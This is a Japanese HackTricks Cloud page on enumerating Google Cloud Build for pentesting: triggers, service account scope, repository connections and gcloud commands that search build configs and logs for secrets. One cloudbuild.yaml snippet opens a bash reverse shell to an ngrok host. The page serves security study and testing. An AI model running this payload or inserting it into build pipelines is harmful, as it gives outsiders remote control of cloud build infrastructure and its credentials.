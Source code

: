 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローまで学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有する。

</details>

## 基本情報

Google Cloud Buildは、**ソースコードリポジトリ**と統合し、多様なプログラミング言語をサポートする管理されたCI/CDプラットフォームで、**ソフトウェアビルド**とリリースプロセスを**自動化**します。開発者がコードを自動的にビルド、テスト、デプロイできるようにしながら、ビルドステップとワークフローをカスタマイズする柔軟性を提供します。

各Cloud Buildトリガーは、**Cloudリポジトリに関連しているか、外部リポジトリ（Github、Bitbucket、Gitlab）に直接接続されています**。

{% hint style="success" %}
Github/BitbucketのトークンをここやCloudリポジトリから盗む方法は見つけられませんでした。なぜなら、リポジトリがダウンロードされるときは[https://source.cloud.google.com/](https://source.cloud.google.com/)のURLを介してアクセスされ、Githubはクライアントによってアクセスされないからです。
{% endhint %}

### イベント

Cloud Buildは以下の場合にトリガーされます:

* **ブランチへのプッシュ**: ブランチを指定
* **新しいタグのプッシュ**: タグを指定
* **プルリクエスト**: PRを受け取るブランチを指定
* **手動呼び出し**
* **Pub/Subメッセージ:** トピックを指定
* **Webhookイベント**: HTTPS URLが公開され、リクエストはシークレットで認証される必要があります

### 実行

3つのオプションがあります:

* 実行するコマンドを**指定するyaml/json**。通常は: `/cloudbuild.yaml`
* ウェブコンソールとCLIで「インライン」で指定できる唯一のオプション
* 最も一般的なオプション
* 認証されていないアクセスに関連する
* ビルドする**Dockerfile**
* ビルドする**Buildpack**

### SA権限

**サービスアカウントは`cloud-platform`スコープを持っており**、すべての権限を**使用できます**。**SAが指定されていない場合**（例えばsubmitを行うとき）、デフォルトのSA `<proj-number>@cloudbuild.gserviceaccount.com`が**使用されます**。

デフォルトでは権限は与えられていませんが、簡単にいくつかの権限を与えることができます:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### 承認

ビルド実行に承認が必要なCloud Buildを設定することが可能です（デフォルトでは無効）。

### 接続 & リポジトリ

接続は以下を通じて作成できます:

* **GitHub:** OAuthプロンプトが表示され、**Githubトークンを取得するための権限を求められます**。その後、**Secret Manager**内にトークンが保存されます。
* **GitHub Enterprise:** **GithubApp**のインストールを求められます。GitHub Enterpriseホストからの**認証トークン**が作成され、このプロジェクトの**Secret Manager**シークレットとして保存されます。
* **GitLab / Enterprise:** **APIアクセストークンとRead APIアクセストークンを提供する必要があります**。これらは**Secret Manager**に保存されます。

接続が生成されると、Githubアカウントがアクセス権を持っているリポジトリにリンクするために使用できます。

このオプションは以下のボタンから利用可能です:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
この方法で接続されたリポジトリは、**2世代目を使用するトリガーでのみ利用可能である**ことに注意してください。
{% endhint %}

### リポジトリの接続

これは**`connection`**と同じではありません。これにより、**GithubやBitbucket**リポジトリにアクセスする**異なる**方法が可能になりますが、接続オブジェクトは生成されませんが、リポジトリオブジェクト（1世代目）は生成されます。

このオプションは以下のボタンから利用可能です:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### ストレージ

Cloud Buildは、トリガーのためのファイルを保存する新しいストレージを**生成することがあります**。これは例えば、GCPが提供する例で発生します:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### シェルを取得

Storageバケット[security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox)が作成され、使用するファイルが含まれた`.tgz`を保存します。
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 列挙

ビルド設定とログに**機密情報が見つかる可能性があります**。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 権限昇格

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 認証されていないアクセス

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 攻撃後の活動

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で<strong>AWSのハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
